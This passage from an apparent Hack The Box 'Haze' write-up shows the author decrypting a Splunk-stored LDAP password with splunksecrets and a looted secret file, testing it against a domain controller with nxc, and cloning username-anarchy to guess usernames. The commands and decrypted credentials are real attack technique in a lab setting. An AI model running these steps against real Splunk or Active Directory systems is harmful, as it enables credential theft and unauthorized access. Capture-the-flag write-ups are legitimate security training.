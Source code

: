 
A `splunksecrets` Python virtual environment was created and activated.  `splunksecrets` was then installed using `pip`.
```
fcoomans@kali:~/htb/haze$ python -m venv splunksecrets

fcoomans@kali:~/htb/haze$ . ./splunksecrets/bin/activate

(splunksecrets)fcoomans@kali:~/htb/haze$ pip install splunksecrets
Collecting splunksecrets
  Using cached splunksecrets-1.1.0-py3-none-any.whl.metadata (303 bytes)
<SNIP>
Installing collected packages: pcrypt, pycparser, click, cffi, cryptography, splunksecrets
Successfully installed cffi-1.17.1 click-8.2.1 cryptography-45.0.4 pcrypt-1.0.5 pycparser-2.22 splunksecrets-1.1.0
```

`splunksecrets` and the `loot/splunk.secrets` file was used to decrypt the LDAP password and the virtual environment was deactivated.
The decrypted password is `Ld@p_Auth_Sp1unk@2k24`.
```
(splunksecrets)fcoomans@kali:~/htb/haze$ splunksecrets splunk-decrypt -S loot/splunk.secret --ciphertext '$7$ndnYiCPhf4lQgPhPu7Yz1pvGm66Nk0PpYcLN+qt1qyojg4QU+hKteemWQGUuTKDVlWbO8pY='
Ld@p_Auth_Sp1unk@2k24

(splunksecrets)fcoomans@kali:~/htb/haze$ deactivate
```

![](images/Pasted%20image%2020250628085326.png)

#### username-anarchy

The password was tested against the LDAP service on DC01 using `nxc` and it fails:
```
fcoomans@kali:~/htb/haze$ nxc ldap dc01.haze.htb -u "Paul Taylor" -p Ld@p_Auth_Sp1unk@2k24
LDAP        10.10.11.61     389    DC01             [*] Windows Server 2022 Build 20348 (name:DC01) (domain:haze.htb)
LDAP        10.10.11.61     389    DC01             [-] haze.htb\Paul Taylor:Ld@p_Auth_Sp1unk@2k24
```

But did it fail because the password is wrong or the username?
The `username-anarchy` repo was cloned from from https://github.com/urbanadventurer/username-anarchy.
```
fcoomans@kali:~/htb/haze$ git clone https://github.com/urbanadventurer/username-anarchy.git
Cloning into 'username-anarchy'...
remote: Enumerating objects: 448, done.
remote: Counting objects: 100% (62/62), done.
remote: Compressing objects: 100% (49/49), done.
remote: Total 448 (delta 29), reused 32 (delta 9), pack-reused 386 (from 1)
Receiving objects: 100% (448/448), 16.79 MiB | 9.04 MiB/s, done.
Resolving deltas: 100% (156/156), done.
```
